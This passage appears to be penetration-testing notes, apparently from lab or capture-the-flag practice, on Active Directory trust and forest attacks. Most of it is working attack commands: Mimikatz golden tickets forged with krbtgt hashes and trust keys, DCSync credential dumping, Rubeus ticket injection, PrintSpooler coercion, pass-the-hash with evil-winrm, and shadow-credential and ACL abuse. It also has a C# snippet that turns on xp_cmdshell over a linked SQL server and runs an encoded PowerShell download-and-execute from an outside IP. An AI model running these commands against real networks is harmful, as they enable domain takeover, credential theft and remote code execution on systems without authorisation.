      kerberos::golden /user:administrator /domain:prod.corp1.com /sid:S-1-5-21-3776646582-2086779273-4091361643 /krbtgt:4b6af2bf64714682eeef64f516a08949 /sids:S-1-5-21-1095350385-1831131555-2412080359-519 /ptt
      ```


* Access Root Domain Controller
  *   ```powershell
      c:\tools\SysinternalsSuite\PsExec.exe \\rdc01 cmd
      whoami /groups
      ```



## Using Trust Key

* Extract trust key
  * Name of the account is always the same as the trusted domain
  *   ```powershell
      lsadump::dcsync /domain:prod.corp1.com /user:corp1$
      ```


* Get Domain SID
  *   ```powershell
      Get-DomainSID -Domain prod.corp1.com
      Get-DomainSID -Domain corp1.com
      ```


* Craft golden ticket
  *   ```powershell
      kerberos::golden /user:<user_name> /domain:<domain_name> /sid:<domain_sid> /sids:<sid_of_target_domain> /rc4:<trust_key_RC4_key> /service:krbtgt /target:<the_target_domain>
      kerberos::golden /user:Administrator /domain:prod.corp1.com /sid:S-1-5-21-634106289-3621871093-708134407 /rc4:d6eba9e9b9bb466be9d9d20c5584c9ef /sids:S-1-5-21-1587569303-1110564223-1586047116-519 /target:corp1.com /ticket:ticket.kirbi
      ```


* Inject ticket with Rubeus
  *   ```powershell
      Rubeus.exe asktgs /ticket:ticket.kirbi /dc:rdc01.corp1.com /service:cifs/rdc01.corp1.com /ptt
      ```


* Reinject to PsExec
  *   ```powershell
      Rubeus.exe asktgs /ticket:ticket.kirbi /dc:rdc01.corp1.com /service:HOST/rdc01.corp1.com /ptt
      ```


* Access Root Domain Controller
  * ```powershell
    c:\tools\SysinternalsSuite\PsExec.exe \\rdc01 cmd
    whoami /groups
    ```

</details>

<details>

<summary>Abusing PrintSpool service to obtain EA Hash</summary>

* Login to server with unconstrained kerberos delegation (eg: appsrv01)
  * Can configure a server to have unconstrained kerberos delegation if domain admin
*   ```powershell
    ls \\rdc01\pipe\spoolss
    Rubeus.exe monitor /interval:5 /filteruser:RDC01$
    .\SpoolSample.exe rdc01.corp1.com appsrv01.prod.corp1.com
    Rubeus.exe ptt /ticket:doIE9DCCBPCgAwIBBaEDAgEWooIEBDCCBABhggP8MIID+...
    lsadump::dcsync /domain:corp1.com /user:corp1\administrator

    #Login via evil-winrm
    evil-winrm -i 192.168.177.60 -u administrator -H 2892d26cdf84d7a70e2eb3b9f05c425e
    ```



</details>

<details>

<summary>Compromising An Additional Forest</summary>

* Forest trust has SID Filtering
  * Contents in the ExtraSids field are filtered, grp memberships are not blindly trusted
  * Moving from corp1.com to corp2.com
  *   ```powershell
      # Enable sidhistory (Requires DA of target corp2.com)
      netdom trust corp2.com /d:corp1.com /enablesidhistory:yes
      # Check that TrustAttributes has TREAT_AS_EXTERNAL
      Get-DomainTrust -Domain corp2.com
      ```


* Need to find user with RID >= 1000 && user in domain local security groups so as not to be filtered (Moving from corp1.com to corp2.com)
  * ```powershell
    # Enumerate members of the corp2.com built-in administrators group
    Get-DomainGroupMember -Identity "Administrators" -Domain corp2.com
    # Enumerate Domain (using powerview)
    Get-DomainSID -Domain corp1.com
    # Extracts krbtgt hash for creating a Golden Ticket 
    lsadump::dcsync /domain:corp1.com /user:corp1\krbtgt
    kerberos::golden /user:h4x /domain:corp1.com /sid:S-1-5-21-1587569303-1110564223-1586047116 /krbtgt:6b1bca4a1f7dbd67e28d3491290e4cb3 /sids:S-1-5-21-3759240818-3619593844-2110795065-1106 /ptt
    # Laterally move to dc01
    c:\tools\SysinternalsSuite\PsExec.exe \\dc01.corp2.com cmd
    ```

</details>

<details>

<summary>Linked SQL Servers in Forest</summary>

## Enumeration

```powershell
# Enumeration for any registered SPNs for MSSQL in prod.corp1.com
setspn -T prod -Q MSSQLSvc/*
# Enumeration of registered SPNs across domain trust
setspn -T corp1 -Q MSSQLSvc/*
setspn -T corp2.com -Q MSSQLSvc/*
```

## Exploiting

*   Login to the rdc01.corp1.com mssql server

    <figure><img src="../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


*   Enumeration for [linked sql servers](../services/1433-mssql.md#linked-sql-servers)

    <figure><img src="../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* Obtaining Reverse shell from dc01.corp2.com
  * ```csharp
    String enable_xpcmd = "EXEC ('sp_configure ''show advanced options'', 1; reconfigure; EXEC sp_configure ''xp_cmdshell'', 1; reconfigure;') AT \"dc01.corp2.com\";";
    SqlCommand command = new SqlCommand(enable_xpcmd, con);
    command.ExecuteNonQuery();
    Console.WriteLine("[+] Enabled xp_cmdshell on DC01");

    String powershellCommand = "IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.222/runall.ps1')";
    String b64Command = Convert.ToBase64String(Encoding.Unicode.GetBytes(powershellCommand));

    String execCmd = $"EXEC ('EXEC xp_cmdshell ''powershell -EncodedCommand {b64Command}''') AT \"dc01.corp2.com\";";
    Console.WriteLine("[+] Executing payload on DC01: " + execCmd);

    command = new SqlCommand(execCmd, con);
    command.ExecuteNonQuery();

    Console.WriteLine("[+] Command executed successfully on DC01.");

    ```

</details>

<details>

<summary>Exploiting AddKeyCredentialLink</summary>

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Using [https://github.com/eladshamir/Whisker](https://github.com/eladshamir/Whisker)

```
Whisker.exe add /target:ZPH-SVRMGMT1$
```

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

```
Rubeus.exe asktgt /user:ZPH-SVRMGMT1$ /certificate:MIIJ… /password:"zCixoq4fEBQBRvvE" /domain:zsm.local /dc:ZPH-SVRDC01.zsm.local /getcredentials /show /ptt
klist
```

<figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

User's NTLM hash might be displayed:

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Trust Exploitation Against Parent Domain</summary>

Already compromised `internal.zsm.local` --> trying to compromise parent domain `zsm.local`

Use PowerView to Enumerate the Domains SID:

```powershell
iex (new-object net.webclient).downloadstring('http://10.10.14.4/PowerView.ps1')
Get-DomainSID -Domain internal.zsm.local
Get-DomainSID -Domain zsm.local
```

Obtain the trust key in rc4 format

```bash
.\mimikatz.exe
lsadump::trust /patch
```

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>



```bash
Kerberos::golden /user:Administrator /domain:internal.zsm.local /sid:S-1-5-21-3056178012-3972705859-491075245 /sids:S-1-5-21-2734290894-461713716-141835440-519 /rc4:65065df3af96b70f29606e2719000eb4 /service:krbtgt /target:zsm.local /ticket:trustkey.kirbi
# kerberos::golden /user:<USERNAME> /domain:<DOMAIN_NAME> /sid:<ORIGINAL_DOMAIN_SID> /sids:<PARENT_DOMAIN_SID>-519 /rc4:<KRB_TGT_RC4_KEY> /service:<KERBEROS_SERVICE_SP> /target:<TARGET_REALM> /ticket:<OUTPUT_TICKET_FILENAME>
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
dir \\ZPH-SVRDC01.zsm.local\c$
type \\ZPH-SVRDC01.zsm.local\c$\users\administrator\desktop\flag.txt
```

</details>

<details>

<summary>Exploiting WriteOwner on group</summary>

<figure><img src="../.gitbook/assets/image (359).png" alt=""><figcaption><p>JDGODD has WriteOwner privilege over "Core staff" group</p></figcaption></figure>

```
Add-DomainObjectAcl -TargetIdentity "CORE STAFF" -PrincipalIdentity JDgodd -Cred $cred -Rights All

Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'JDgodd' -Cred $cred

net group 'CORE STAFF'
```

<figure><img src="../.gitbook/assets/image (360).png" alt=""><figcaption></figcaption></figure>

</details>
